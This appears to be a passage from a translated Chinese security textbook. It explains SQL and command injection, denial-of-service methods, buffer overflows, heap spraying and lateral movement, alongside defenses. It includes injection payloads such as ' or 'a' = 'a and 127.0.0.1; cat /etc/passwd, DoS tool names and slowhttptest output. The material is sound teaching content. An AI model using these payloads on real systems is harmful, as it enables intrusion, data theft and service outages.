DOM 是实现基于 DOM 的 XSS 攻击的基础。DOM 是一种引用页面元素的方式，仿佛它们是对象。这意味着您可以在对象上调用方法——具体来说，可以获取和设置这些对象的参数。基于 DOM 的 XSS 看起来就像反射型 XSS。区别在于 URL 中引用的变量将是页面的一部分。页面内部有一个脚本，它会提取该变量并根据其值执行某些操作。发送一个在变量中包含脚本值的 URL 会将脚本插入页面，这意味着脚本将被执行。

由于脚本可能会变得复杂，并且可能使用 URL 中非法的字符，例如空格或其他特殊字符，因此需要对字符进行编码。您使用一种称为 URL 编码的方法来编码这些字符。要对内容进行 URL 编码，需使用 ASCII 表将 ASCII 字符转换为数值。该数值以十六进制表示，前面加上 % 符号，以指示后面的值是 ASCII 字符的十六进制表示。回到空格字符，ASCII 字符集中空格字符的十进制值为 32。十六进制中即为 20（2 × 16）。要在 URL 中表示空格字符，您将使用 %20。每当您在 URL 中看到 %20 时，就知道它代表一个空格字符，服务器可能无法正确处理该字符，因为空格有时被视为分隔符，这意味着空格前面的字符会被解释为发送到 Web 服务器的 URL 中的最后一个字符。


## SQL 注入

当然，跨站脚本并不是使用 URL 编码的唯一地方。任何想要模糊文本的地方，都可以对其进行 URL 编码。这使得普通用户更难知道正在发生什么，因为他们无法轻松地将十六进制值转换回其 ASCII 等效值。许多其他攻击可以通过使用 URL 编码来模糊或使其成功，SQL 注入就是其中之一。

SQL 是结构化查询语言，用于向关系型数据库服务器发出程序化请求。服务器管理存储，存储方式会因服务器类型而异，但为了访问存储（无论是插入数据还是检索数据），都会使用 SQL 编程语言。

SQL 注入本质上是针对数据库服务器的攻击，尽管它利用了应用程序代码中的糟糕编程实践。作为一种注入攻击，当恶意用户通过 Web 请求发送（注入）意外数据时，就会发生这种情况。有时，表单数据会直接从应用服务器传递到数据库服务器中的 SQL 查询以执行。如果一段合法的 SQL 被发送到服务器并在其中执行，数据库可能会被更改或损坏。此外，数据可能会被提取，甚至身份验证可能被绕过。

你试图用 SQL 注入攻击的应用程序必须已有 SQL 来运行应用程序成功所需的查询。例如，也许你正在浏览一家电子商店，想要找到所有《神秘博士》动作人偶，因为你真的想要一个乔迪·惠特更克的，因为你已经集齐了其他所有款。你在网站上搜索“jodie whittaker doll”以获得正确的结果。幕后，应用程序可能有一条如下所示的 SQL 语句：

```
SELECT * FROM inventory_table WHERE description = '$searchstr';
```

你提交的内容（“jodie whittaker doll”）会放入变量 $searchstr 中。这意味着这并不像简单地发出自己的查询并期望它运行那样简单。相反，你需要找到一种方法，让你的查询在现有查询的上下文中工作。图 12.2 中展示了一种方法。

### 图 12.2 SQL 注入攻击


这个特定的攻击是针对名为 Damn Vulnerable Web App 的 Web 应用程序进行的，这是一个故意存在漏洞的 Web 应用程序，你可以用它来了解更多关于攻击的信息，并针对应用程序中的不同安全级别进行测试。输入的字符串是 ' or 'a' = 'a。这使用单引号来关闭现有的查询字符串，然后引入布尔逻辑术语 or 以及一个将返回 true 的测试。这意味着整个表达式将返回 true。数据库中的每一行都将计算为 true。由于此处的查询可能以 SELECT * 开头，我们会获取数据库中的每一行。你会注意到插入的查询省略了最后一个引号。这样做的原因是应用程序中的查询已经在末尾有一个单引号。我在程序中引入了一个单引号来终止求值，但仍有一个单引号悬在那里，所以如果我省略单引号，现有的单引号会替换它，从而留下一个有效的 SQL 语句。

这可能并不总是有效，具体取决于应用程序中存在的 SQL 查询。

在某些情况下，你可能需要替换应用程序中查询的其余部分。这可以通过使用注释字符来完成。如果支撑应用程序的 SQL 服务器基于 MySQL（包括 MySQL 和 MariaDB），你可以使用双连字符 -- 来表示注释。双连字符之后的所有内容都会被注释掉。这可以让你注入自己的完整 SQL 语句，然后只是注释掉应用程序中的其他所有内容。MySQL 语法还允许使用 # 字符来表示注释。它的作用与双连字符一样。在 Oracle 服务器或 Microsoft SQL Server 上，双连字符也有效。

由于 SQL 在不同服务器类型之间并不总是以相同的方式工作，问题就变成了如何确定底层数据库服务器是什么。你可能可以根据之前进行的侦察来了解。例如，配置不当的 Apache 服务器可能会告诉你加载了哪些模块。你可能可以根据应用程序版本扫描的结果判断存在 MySQL 服务器。如果你针对的是 Microsoft IIS 安装，你可能会猜测它可能是 Microsoft SQL Server。一种更明确的方法是向应用程序中引入无效的 SQL。如果应用程序编程良好，你不应该得到任何返回，但通常你会收到来自数据库服务器的错误。要么你会收到一条包含数据库服务器信息的错误消息，要么你会收到一条错误消息，允许你根据错误消息的措辞确定服务器类型。

在图 12.2 的案例中，我们得到了查询的输出。并非所有查询都会生成输出。这意味着你是在盲飞，因为你看不到查询的结果。在这种情况下，你正在发送盲 SQL 注入攻击。由于你可能是在盲飞，你需要改变你的方法。你需要构建你的查询，以便根据应用程序的工作方式，你可以看到成功或失败。盲注入的目的是查看页面是否根据提供的输入表现不同。这可能会让你在花费大量时间尝试运行这些攻击之前，确定页面是否易受 SQL 注入攻击。

假设你有一个搜索字段，就像我们之前讨论的那样。你不需要使用完整的字符串，可以使用类似“jodie”的简单内容，而不是之前使用的完整“jodie whittaker doll”搜索。不过，与此同时，你将尝试通过追加“and 1=2”来得到一个 false。由于 1 永远不等于 2，整个搜索应该返回 false。一旦你看到该页面的结果，你可以运行另一个应该生成 true 的查询。你可以指定 1=1，而不是 1=2。如果你从查询 1=1 得到的结果与 1=2 不同，该页面可能易受 SQL 注入攻击。你可以做出此假设，因为当提交不同的 SQL 时，应用程序的响应不同。

有几种方法可以修复这些攻击。第一种是筛选来自用户的任何输入，就像你为其他攻击所做的那样。你可以查找特殊字符并将其删除。你可以查找任何看起来像 SQL 语句的内容并删除这些元素。这可能包括使用白名单等功能，即允许的文本列表。

另一种方法是使用参数化查询或存储过程。它们的效果类似，因为你无法在程序中操纵字符串。用户端发送的值变成传递给查询的参数。因此，注释字符不会删除查询字符串的其余部分。此外，任何试图通过操纵引号来插入 SQL 语句的尝试都不会奏效，因为作为参数的行为与将文本插入字符串值不同。

## 命令注入

命令注入攻击类似于 XML 外部实体注入攻击。此类攻击的重点是操作系统。应用程序从用户那里获取一个值，并将其传递给系统函数或求值函数。此类函数将参数传递给操作系统来处理。这意味着如果没有输入验证，你可以将操作系统命令传递给输入字段，该操作系统命令将被执行。你可以在图 12.3 中看到此示例。输入框期望一个 IP 地址或主机名。应用程序运行 ping，并将 IP 地址作为程序的参数。

### 图 12.3 命令行注入攻击


你可以通过使用命令分隔符来利用这一点。这意味着需要知道支撑 Web 应用程序的操作系统。这是因为 Linux 上的命令分隔符与 Windows 上不同。在 Linux 上，即 Figure 12.3 中网页所基于的操作系统，输入的字符串是 127.0.0.1; cat /etc/passwd。分号 (;) 用于在运行第二个命令 cat /etc/passwd 之前终止命令 ping 127.0.0.1。在 Windows 系统上，分号用于分隔参数。相反，你会通过 Windows 命令处理器在命令之间使用 & 符号。

无论是在 Windows 还是 Linux 上，你都可以在命令之间使用布尔运算符。这会将第二个命令的执行条件设置为第一个命令成功。例如，ping -c 5 127.0.0.1 && cat /etc/passwd 表示只有在 ping 命令成功时，cat 命令才会运行。如果你想将条件设置为另一方向，即仅在第一个命令失败时才运行第二个命令，你可以使用类似 dir \Windows | echo wubble 的东西。如果出于某种原因 dir 命令失败，则会运行 echo 命令。

与其他 Web 应用程序攻击一样，修复方法也有几种。一如既往，输入验证是正确答案。了解输入应该是什么样子。如果有任何内容不符合你的预期，则拒绝该输入，并要求用户提供更干净的内容。在 Figure 12.3 的示例中，IP 地址具有明确定义的结构。你可以根据该结构检查输入。如果输入不像 IP 地址，则不接受任何输入。你还可以构建应用程序，使来自用户的任何输入都不会直接传递给系统，即使它是命令的一部分也是如此。

## 拒绝服务攻击

请记住机密性、完整性和可用性三要素。到目前为止，在 Web 应用程序攻击方面，我们一直在讨论完整性。这些攻击影响整个应用程序的完整性。如果攻击者设法通过其中一种攻击获得系统访问权限，那么我们开始讨论机密性。在接下来的章节中，我们将讨论可用性。拒绝服务攻击的目的是使应用程序停止服务，因此合法用户无法使用它。由于用户通常通过 Web 应用程序与企业进行交互，因此它们往往是拒绝服务攻击的目标。这也因为攻击者通常位于企业外部，而 Web 服务器通常暴露在互联网上。

## 带宽攻击

带宽攻击用于产生大量流量，从而淹没服务所使用的网络连接。带宽攻击的一个问题（尤其是今天）是，你的目标很可能拥有比你多得多的带宽容量。这意味着单独行动，你不可能产生足够的流量来让网站下线。你可以采用几种方法。第一种就是群起而攻之你的目标。这可能意味着你召集所有朋友，向目标发送尽可能多的数据。如果你有足够的朋友，你可能能够产生足够的流量来让服务下线。

另一种与此类似但更实用的方法（尤其是当你没有太多朋友时）是使用大量被攻陷的系统。这可以通过使用具备向目标发出请求能力的僵尸网络来完成。僵尸网络越大，你能产生的流量就越多。这确实假设你要么能够访问僵尸网络，要么知道在哪里可以租用一个。不过，并不是所有人都会花时间获取僵尸网络客户端。这意味着你需要采用另一种方法。

幸运的是，还有一种方法可以让你付出很少却获得很多。放大攻击长期以来一直是可能的。用于放大攻击的第一个协议之一是 ICMP。Smurf 攻击使用向广播地址发送的 ICMP 回送请求。如果你选择足够大的网络，并使请求足够大，就可以获得大量大的响应。由于请求带有伪造的源地址，因此所有响应都会发送到你的目标。在 20 世纪 90 年代末和 21 世纪初的高峰期，向广播地址发送 ping 可以获得数万个响应，这些响应被称为重复项，因为在对请求的第一个响应之后，每个后续响应都被视为重复项。这种攻击今天不再具有过去那么大的影响。图 12.4 显示了在 Smurf 放大器注册表停止检查之前，2017 年仍然存在的最大 Smurf 放大器。

### 图 12.4 Smurf 放大器注册表

Smurf 放大器注册表 (SAR)
http://www.powertech.no/smurf/

**当前前十名 Smurf 放大器（每 5 分钟更新一次）**
*（最后更新：2017-03-01 12:06:01 CET）*

| 网络 | 重复数 | 事件数 | 注册时间 | 本地 AS |
|---|---|---|---|---|
| 212.11.130.0/24 | 38 | 0 | 1999-02-20 09:41 | AS9105 |
| 204.158.83.0/24 | 27 | 0 | 1999-02-20 10:09 | AS3354 |
| 209.241.156.0/24 | 27 | 0 | 1999-02-20 08:51 | AS701 |
| 193.109.122.0/24 | 20 | 0 | 1999-02-20 11:52 | AS3304 |
| 194.220.118.0/24 | 19 | 0 | 1999-02-20 09:38 | AS685 |
| 204.193.121.0/24 | 19 | 0 | 1999-02-20 08:54 | AS701 |
| 198.253.187.0/24 | 16 | 0 | 1999-02-20 09:34 | AS22 |
| 140.226.141.0/24 | 14 | 0 | 1999-11-20 11:30 | AS546 |
| 194.17.163.0/24 | 13 | 0 | 2000-11-29 19:05 | not-analyzed |
| 199.08.24.0/24 | 13 | 0 | 1999-02-18 11:09 | AS6199 |

已有 2458442 个网络通过 SAR 进行了探测
其中 56 个目前已损坏。
193885 个在列出后已修复。

幸运的是，我们不再需要依赖 Smurf 攻击来进行放大攻击。另一种可用的协议是 DNS。这些攻击在近年来声名狼藉。一个非常著名的攻击是针对 Brian Krebs 的网站 Krebs on Security 的攻击，该网站提供由调查记者 Krebs 撰写的信息安全报道。流量在高峰期达到每秒 620 吉比特。

DNS 请求使用 UDP 作为传输协议，和 ICMP 一样，不会验证源地址，这使得伪造源地址变得非常容易。该攻击之所以有效，是因为 DNS 请求很小，而合适的 DNS 响应可能大得多。常见的 DNS 放大攻击比例为 70:1，意味着请求中发送的每个字节，响应就有 70 个字节。该攻击确实需要一个反射器，即一台对互联网开放、会执行递归查询（解析器而非权威服务器）的 DNS 服务器。理想情况下，你会使用多个解析器和多个请求者来获得最大流量。

当然，有许多工具可用于执行这些拒绝服务攻击。其中之一是 Low Orbit Ion Cannon (LOIC)。这是一个 .NET 程序，可以在 Windows 系统以及安装了 Mono 包的 Linux 系统上运行。你可以在图 12.5 中看到 LOIC 的界面。该程序可用于向 URL 和 IP 地址发送大量请求。你可以使用 LOIC 向目标发送 TCP、UDP 或 HTTP 请求。

### 图 12.5 Low Orbit Ion Cannon


这类攻击的一个常用术语是分布式拒绝服务，因为攻击通常涉及多个系统，而且这些系统通常分布在互联网上的各个地方。正是这种分散的特性使其成为分布式攻击。如前所述，随着企业获得更多带宽，单个系统或站点要产生足够的流量来使网站下线变得困难得多。实际上，每个面向带宽的现代拒绝服务攻击都是分布式拒绝服务攻击。这并不是说所有拒绝服务攻击都是分布式的，甚至也不是说都面向带宽。

在修复此类攻击方面，选择并不多。如果你在自己的网络上托管自己的服务，并且是拒绝服务攻击的目标，那么在遭受攻击后你能做的最好事情就是联系你的互联网服务提供商 (ISP)，并希望他们在攻击到达你之前采取一些措施将其转移。当攻击到达你的网络连接时，就已经太晚了。你与 ISP 的连接被淹没，这就是拒绝服务的来源。你的防火墙或其他本地设备对此完全无能为力。


另一种方法是使用负载均衡服务，例如 Akamai 和其他公司提供的服务。请求会先进入他们的网络，然后再分发到目标系统，无论这些系统位于何处。由于 Akamai 拥有足够的网络带宽，通常可以抵御传入的请求量。它有能力管理流量，丢弃那些看似有问题的请求。当然，任何托管在 Amazon Web Services、Microsoft Azure 或 Google Compute 等云提供商上的服务，也可以抵御拒绝服务攻击。

> 值得注意的是，Krebs on Security 是由 Akamai 免费托管的。当网站遭受攻击时，Akamai 被迫放弃该站点，以保护其其他客户。

## 慢速攻击

流量攻击不是创建拒绝服务的唯一方式。你不需要消耗带宽，甚至不需要快速发送大量请求。有些攻击本质上是缓慢的，本质上看起来正常。这些慢速 HTTP 攻击通常非常有效，且无需付出太多努力。早期的拒绝服务攻击是 SYN 洪水攻击，它会填满 Web 服务器的连接缓冲区。它不需要大量请求，发送请求所需的带宽也很少。一般而言，这种攻击已不再有效。但是，该概念仍然可行。使用 slowloris 攻击（以动物懒猴命名，一种分布在东南亚的灵长类动物），其目标是向 Web 服务器发送不完整的请求。发送请求时，三次握手已完成，因此 SYN 缓冲区不起作用。相反，Web 服务器能够处理的并发请求数量是一个因素。

Web 服务器可以配置为可同时运行的线程数量。这样可以防止 Web 服务器消耗系统过多资源。但是，一旦所有线程都被用完，就无法再接受新的连接。slowloris 攻击对 Web 服务器可能非常成功。事实上，在以下代码清单中，你可以看到 slowhttptest 程序的一次运行，该程序可用于执行 slowloris 攻击。在 26 秒内，该程序导致默认安装的 Apache 停止响应请求。当然，这并不十分令人印象深刻，因为单服务器上的默认 Apache 安装未配置为接受大量请求。

## 针对 Apache 服务器的 slowhttptest 运行

```
slowhttptest version 1.6
- https://code.google.com/p/slowhttptest/ -
test type:			SLOW HEADERS
number of connections:	50
URL:			http://192.168.86.44/
verb:			GET
Content-Length header value: 4096
follow up data max size: 68
interval between follow up data: 10 seconds
connections per seconds: 50
probe connection timeout: 5 seconds
test duration: 240 seconds
using proxy: no proxy

Sat Jan 5 21:28:31 2019:
slow HTTP test status on 25th second:

initializing: 0
pending: 0
connected: 15
error: 0
closed: 35
service available: YES
Sat Jan 5 21:28:32 2019:
Test ended on 26th second
Exit status: No open connections left
```

slowhttptest 程序还可用于运行其他 HTTP 攻击，包括 R-U-Dead-Yet，这是另一种慢速请求攻击，它使用 HTTP 正文而非 HTTP 头部，类似于 slowloris。可以使用 slowhttptest 运行 Apache Killer 攻击。slowhttptest 程序发送请求，要求获取重叠的字节范围。由于 Apache 服务器程序中的一个漏洞，这会导致服务器内存消耗。这是一种针对特定版本 Apache 的攻击，而其他攻击则与服务器配置有关，而不是软件中的漏洞。最后，slowhttptest 支持慢速读取攻击。这是指程序向 Web 服务器请求一个大文件，然后从服务器以小段读取该文件。攻击程序随后可以在读取之间等待很长时间。这会保持连接长时间打开，占用本可由合法用户使用的连接。

## 旧式攻击

曾经有一段时间，拒绝服务攻击是通过利用协议的薄弱实现来实施的，例如前文提到的 SYN 洪水攻击。SYN 洪水攻击是指大量 SYN 消息填满系统的连接队列，从而使合法的连接请求无法进入。这是因为操作系统中 TCP 的薄弱实现，半开连接在系统放弃等待连接其余部分之前占用了系统资源太长时间。

局域网拒绝（LAND）攻击可以使系统崩溃。LAND 攻击将 TCP 段的源信息和目标信息设置为相同。这会导致该段在操作系统中循环，先作为出站处理，再作为入站处理，依此类推。这个循环会使系统死锁。

Fraggle 攻击类似于前文提到的 Smurf 攻击。在 Smurf 攻击中，伪造的 ICMP 消息被发送到广播地址。Fraggle 攻击采用相同的方法，但不是发送 ICMP 消息，而是发送 UDP 消息。UDP 与 ICMP 类似，不会验证源地址且是无连接的，这意味着它可以被伪造。攻击者向网络的广播地址发送一个 UDP 请求，并将目标地址设置为源。

Teardrop 攻击是指攻击者向目标发送碎片化的 IP 数据包，且碎片设置为重叠。在重新组装数据包时，操作系统无法处理重叠。这会导致操作系统层面的拒绝服务。

这些攻击在大多数情况下已不再有效，因为大多数操作系统的网络栈实现已修复，以防范这些异常情况。如今的网络栈比 20 年前这些旧式攻击流行时要强大得多。这并不是说没有设备仍然容易受到这些攻击的影响。对于计算资源有限的嵌入式系统，情况可能尤其如此。

## 应用程序漏洞利用

应用程序漏洞利用几十年来一直很常见。应用程序漏洞利用是指攻击者获得程序执行路径的控制权。这通常是通过向应用程序发送无效输入，而应用程序未验证输入来完成的。这是 Web 应用程序攻击部分讨论的同一问题。当程序员不能确保获得他们期望的内容时，就会发生不好的事情。这些攻击不仅是因为程序内输入验证不良，还因为操作系统将程序放置在内存中的方式。更改程序执行流（称为任意代码执行）的几种常见方法，包括缓冲区溢出和基于堆的攻击。

## 缓冲区溢出

缓冲区溢出攻击利用了称为栈的内存结构。栈是程序函数执行期间存储数据的一部分内存。每次调用函数时，都会在栈上创建一个新的栈帧，其中包含函数局部变量的内容。此外，对于缓冲区溢出最为重要的是，当函数结束时用于返回执行的地址也存储在栈上。在图 12.6 中，你可以看到一个单个栈帧的示例。栈的特点是，一旦将某物放在栈上，你就无法访问其下面的任何内容，直到将栈顶移除。你总是在往栈顶添加一项，或者移除栈顶的一项。

### 图 12.6 栈帧


缓冲区溢出之所以能够工作，是因为局部变量。每个变量在栈上分配空间。在某些情况下，数据会被复制到为其分配的空间中，但如果复制到该空间（称为缓冲区）的数据大于缓冲区，那么被复制进去的数据将覆盖栈上的其他任何内容。这包括返回地址。
图 12.7 显示了当向缓冲区发送过多数据时会发生什么。假设有一个名为 strName 的缓冲区，分配了 10 个字节（字符），但函数正在将 16 个字节（字符）复制到该变量中。这 10 个字节（在此情况下为 10 个 A）填满了为该变量分配的 10 个字节。剩余的 6 个字节写入内存中的下一个地址。在此情况下，下一个内存地址空间是返回地址。当调用函数时填充此地址，并在函数完成时检索。

### 图 12.7 缓冲区溢出


在此处，返回地址被加载为 A。实际上，该字节为 0x41，即 A 的 ASCII 值的十六进制表示。程序尝试跳转的地址将包含 0x41414141414141。这样的地址很可能超出分配给程序执行的地址空间，这意味着程序会因段错误而失败。当程序尝试跳转到其内存段之外的地址时，就会发生段错误。


这是一个简单化的示例。在真实的计算机中，所有内容都必须按位边界对齐。如果操作系统是 32 位，所有内容都必须按 4 字节边界对齐。这意味着即使变量已分配 10 字节，也会占用 12 字节。在 64 位系统的情况下，所有内容都必须按 8 字节边界对齐，因此即使分配了 10 字节，也会占用 16 字节。

缓冲区溢出的目标是注入一段名为 shellcode 的代码，攻击者希望该代码被执行。栈中存储返回地址的位置需要指向 shellcode 当前所在的内存空间。这意味着那里的任何代码（汇编语言，因为这是处理器理解的语言）都将被执行。攻击者可能已创建对系统 shell 的调用，以将访问权限交还给自己。

之所以称之为 shellcode，是因为当初这些微型程序被创建时，这段代码用于创建一个 shell 以便攻击者获取系统访问权限。

防范此类攻击的一种方法是阻止栈上的任何内容执行。由于程序代码位于不同的内存段中，栈中本不应包含任何要执行的代码。不过，有绕过此限制的方法。一种称为 return to libc。标准 C 库包含 C 语言中包含的所有标准函数，通常存储在内存中，以供所有用 C 编写并编译为使用共享库的程序共享。该库可能存储在内存的已知位置，这意味着返回地址可以被覆盖为标准 C 库中攻击者可使用的函数的位置。即使库的位置未知，也可以通过一些探测来确定，因为可以让 C 函数打印内存位置。

防范其中一些攻击的一种方法是地址空间布局随机化（ASLR）。攻击者可以创建漏洞利用，因为每次程序运行时，似乎都会获得相同的内存位置。这意味着栈始终在同一位置。这些地址被编译到程序中，操作系统允许程序相信每次运行时都位于内存中的同一位置。它每次获得的物理地址都不同，但由于虚拟内存，程序认为自己拥有的地址可能与实际位置截然不同，因为操作系统负责地址转换。

支持 ASLR 的操作系统会重定位程序，这意味着程序必须支持相对地址而非绝对地址。每次程序运行时，它都会被放置到不同的地址空间，即程序被告知自己位于内存的不同部分。这使得攻击者的工作更加困难，但并非不可能。

防范缓冲区溢出的另一种方法是使用名为栈金丝雀（stack canary）的一段数据。这一术语来源于矿工将装在笼子里的金丝雀带入矿井的做法。由于矿井可能含有致命气体，金丝雀被用作矿工的早期预警。因为金丝雀比人类更灵敏，如果金丝雀死了，矿工就知道要离开矿井，因为那里可能有他们闻不到的致命气体，如果待在那里会丧命。栈金丝雀在此起到同样的作用。它是一个放置在栈中返回地址之前的值。在使用返回地址之前，会检查栈金丝雀的值。如果它以任何方式被篡改，则假设返回地址已被篡改，因此不会使用它，程序可以失败而不是被攻破。

## 堆喷射

栈用于存储编译时已知的数据。即程序源代码中声明的数据。在程序执行期间，所有这些数据都可以在栈上构建。并非所有数据都像这样预先已知。有些数据只在运行时才知道。需要分配空间来存储这些数据。由于内存中的栈空间是为程序在运行前已知的数据分配的，因此需要内存空间来存储在运行时创建和使用的数据。这是内存中名为堆的一种数据结构。在程序执行期间，从堆中分配内存，并将数据放入这些内存分配中。当数据不再需要时，内存会被释放以供下次需要时再次使用。

由于内存在运行时分配，无法保证分配什么内存以及何时分配，因为数据需求可能会随着程序每次运行而变化，具体取决于程序在做什么。另外，堆中没有存储可供操纵的返回地址。这并非说在漏洞利用期间无法利用堆。堆喷射是一种可使用的技术，尽管它不能单独使用。

缓冲区溢出的一个问题是如何将 shellcode 放入内存，并可靠地让返回地址指向它。栈可能没有足够的空间来插入代码。至少，这确实限制了 shellcode 中可以做什么，因为它必须很小。堆可以在这方面提供帮助。堆喷射技术利用堆来存储 shellcode。堆通常位于内存的已知位置，如果 shellcode 位于堆上的已分配空间中，可能可以预测它会被放置在哪里。

攻击者会尽可能在多个位置将 shellcode 存储到堆中，然后利用缓冲区溢出将 shellcode 的地址写入返回地址。程序随后会跳转到堆并执行那里存储的 shellcode。此类攻击的常见目标是浏览器，因为浏览器经常需要动态分配内存，资源利用率会因请求的页面及其功能而异。由于分配了大量动态内存，这为存储 shellcode 提供了大量堆空间。

## 横向移动

在现实世界中，进入系统并非终点。随着越来越多的组织掌握现代攻击领域，许多人谈论攻击生命周期，以帮助了解攻击者处于哪个阶段。生命周期主要涉及在检测到攻击后如何应对。它还有助于规划和准备。生命周期的一种方法使用以下阶段：

- 1. **初始侦察。** 攻击者正在对目标进行侦察，以确定最佳攻击方法以及目标中值得获取访问权限的内容。

- 2. **初始妥协。** 攻击者已通过网络钓鱼攻击或应用程序妥协等方式在组织内获得访问权限。他们已进入网络。

- 3. **建立立足点。** 攻击者之前已获得访问权限，但在这里他们会加强自己的立足点。这可能来自安装一种随时重新进入的方法，而无需依赖初始妥协向量。这还可能涉及建立命令和控制机制。

- 4. **权限提升。** 攻击者此时将开始收集凭据。他们还会尽可能获取更高级别的权限。

- 5. **内部侦察。** 攻击者将了解内部情况，并识别其他可能可以妥协的系统。

- 6. **横向移动。** 攻击者会妥协环境中的其他系统，以获取更多系统、凭据和数据。

- 7. **维持存在。** 攻击者将继续建立获取环境中系统访问权限的方法。

- 8. **完成任务。** 攻击者会将数据从环境中带出。

步骤 4 到 7 是一个会根据需要继续的循环。攻击者妥协的每个系统，都会重新开始内部侦察，以识别其他可能被妥协的系统。在此过程中，每妥协一个系统，可能都需要再次提升权限。

在渗透测试或道德黑客攻击项目中，横向移动的目的是确保企业了解其内部可能存在的漏洞所在。仅加固外部防御是不够的，因为你可能最终拥有坚硬的外壳却脆弱的内部。毕竟，妥协不仅来自面向外部的服务。有时，它们发生在业务更深处，例如桌面上。如果网络内部易于移动，重要资源仍然面临风险。

横向移动采用到目前为止使用的同样的策略：更多侦察以识别可乘之机的目标、收集凭据，并利用各种可用手段获取对其他系统的远程访问权限。从一个 Linux 系统移动到另一个 Linux 系统，可能只需使用安全外壳（SSH）利用收集到的凭据获取远程访问权限。在 Windows 方面，还有其他机制可用于在系统之间移动。

在某些情况下，Windows 系统可能允许 Windows 远程管理（WinRM）在其他系统上执行管理功能。这假设你在远程系统上有凭据，如果你在域控制器上，这可能只是使用域凭据的问题。当然，如果你在更外部，如果你设法获得了域凭据，仍然可以使用域凭据。如果 WinRM 服务正在运行，你还可以运行 PowerShell 命令来执行管理任务。PowerShell 已成为一种非常强大的语言，适用于许多任务。


存在一种名为“以敌为资”（living off the land）的概念，是攻击者使用的。多年前，攻击者可能拥有需要下载的工具包。通常，使用的是编译过的软件。如今，Linux 系统通常附带 Python 解释器，可用于多种目的。在 Windows 方面，PowerShell 可用，PowerShell 的每个连续版本都引入了大量新功能。攻击者已意识到这一点，并开始使用 PowerShell 针对本地网络发动攻击。

## 防御纵深/防御广度

长期以来，防御纵深一直被认为是保护网络及其资源的最佳方式。这一概念源自军事领域，有时也被称为城堡防御。防御纵深策略的主要目的是拖延攻击者，以便防御者有时间组织起来并将攻击者驱逐出去。网络将采用分层方法，配备多层防护。图 12.8 展示了一种非常简单的网络设计，其中包含多个控制层级以防范攻击。已部署多个防火墙，以便在网络段之间实施更严格的访问控制。这意味着，即使攻击者突破了一道防线，下一道防线也会略有不同，攻击者将不得不重新开始。

图 12.8 防御纵深网络设计


在防御纵深策略中，不仅仅是网络防火墙。在防火墙之上，可在分隔网络段的路由器上实施访问控制列表，这些路由器上未部署防火墙。这一点在面向外部世界的路由器上尤其适用。精细的访问控制不应部署在这样的边界路由器上。然而，访问控制在边界路由器上可以执行许多功能。其中包括丢弃所有来自所谓“火星数据包”的网络流量。这是一种源地址来自数据包不应发源的地址空间的数据包。这包括 RFC 1918 定义的所有私有地址，以及任何其他保留地址空间。

防御纵深存在几个问题。首先，它没有考虑到企业如何才能得知攻击正在发生，从而组织起防御。如果攻击者设法绕过现有防护并出现在网络中部，运维团队如何得知以便响应？这引出了防御纵深方法中的第二个问题点。它完全误解了现代攻击手段。当今的攻击者更可能使用钓鱼等社交工程攻击。这意味着他们很可能是从网络内部进入的。

防御纵深的另一个潜在问题是网络中的设备数量，防御功能可能被孤立化，并且它们之间可能无法很好地协同工作。防御纵深方法可能是这样的：主机有自己的防火墙，由服务器团队管理，而可能有多个网络团队管理各自的防护。每个“封地”可能无法与其他团队充分协调。最终结果是控制措施可能相互冲突，当然也无法形成统一的企业安全方法。

解决这一问题的一种方法是采用防御广度方法。该方法会考虑更广泛的攻击类型，基于这样的理解：攻击不仅仅发生在网络层或传输层。攻击更可能发生在应用层，而非协议栈较低的那几层（传统防火墙更有可能在这些较低层提供有效防护）。存在下一代防火墙，其覆盖的网络协议栈范围比传统有状态防火墙更广。这可能包括通过理解应用层协议来防御应用层攻击，从而丢弃违反这些协议的消息。

防御广度策略应考虑企业的整体需求，而不必要求事件可重复，并基于对关键资产和业务风险的理解。

事件是指可检测到的发生之事。这可以是任何事情，例如用户登录或网络连接失败。事件通常由组织根据自身要求定义，但一般来说，它是指违反策略的事件。例如，未经授权使用系统即属此类。

日志记录是构建可防御网络架构的一个重要方面。网络设备可以生成 NetFlow 数据，可用于存储进出网络连接的汇总信息。事件发生后，拥有确定该事件是否上升为安全事件并需要调查所需的数据将非常有用。如果没有像 NetFlow 这样的数据来了解哪些系统在通信以及它们与谁通信过，就更难界定事件范围，并了解超出初始指标之外的哪些系统可能受到影响。如果没有这些额外信息，网络中可能存在正在收集数据的对手。

当然，日志记录也可能是一项昂贵的活动。至少，除了日志本身（例如，Web 服务器、代理服务器、Active Directory 服务器、防火墙、入侵检测系统等）之外，你还需要一个存储和查询日志的地方。这可能是类似 Elastic Stack 或 Splunk 的东西，也可能是一个全功能的安全信息和事件管理（SIEM）解决方案。SIEM 可以帮助组织和关联数据，并能够管理传入的事件。这包括生成警报。

当然，这不仅仅关乎日志记录和可见性。一旦攻击者在环境中被识别出来，就需要具备响应能力。这包括隔离系统的能力，以及在网络中提供瓶颈点。隔离系统不仅仅是将其从网络中移除。在你试图了解其渗透范围时，可能需要继续允许攻击者访问你的系统。你将需要


阻止攻击者能够继续访问网络中的其他系统。隔离意味着能够将其及其流量与网络的其他部分分开。

可防御的网络架构会考虑到网络会被攻破，系统会被攻破这一事实。目前，我们无法确保对手不会进入环境，尤其是因为主要的攻击策略是社会工程学。这通常会让攻击者位于网络内部，这意味着攻击者将能够访问桌面用户能够访问的一切。网络设计应考虑对手所在的位置。城堡防御，或纵深防御，假设对手在外部。可防御的网络架构应能允许运维团队防范对手可能存在的任何位置。

## 摘要

旧式攻击会利用监听服务中的漏洞。它们甚至可能利用网络协议栈实现中的漏洞。这不是现代攻击发生的地方。很多时候，攻击是通过社会工程学进行的。攻击经常发生在应用层，由于Web应用程序是用户与企业交互的常见途径，Web应用程序是攻击者的良好目标。针对Web应用程序有几种常见攻击。这些攻击可以让攻击者访问数据，甚至访问底层系统。例如，XML外部实体处理可以允许使用XML来访问底层系统函数和文件。SQL注入攻击不仅可以让攻击者访问存储在数据库中的数据，在某些情况下还可以用于访问底层操作系统。

不过，并非所有攻击都针对服务器基础设施。跨站脚本攻击旨在获取用户拥有的某些东西。这可能不仅包括用户系统上的数据，还包括用户有权访问的网站上存储的数据。存储在Cookie中的会话识别信息可用于访问用户拥有权限的其他系统。这可能是在线零售商，甚至是银行网站。这些会话令牌可能被用来从用户那里窃取。

在开发Web应用程序时，可以通过多种手段进行保护。首先，每个函数都应该验证所有输入，即使预期它来自受信任的来源。此外，不应将任何内容直接从用户传递到任何子系统。此类操作可能导致命令注入等攻击。

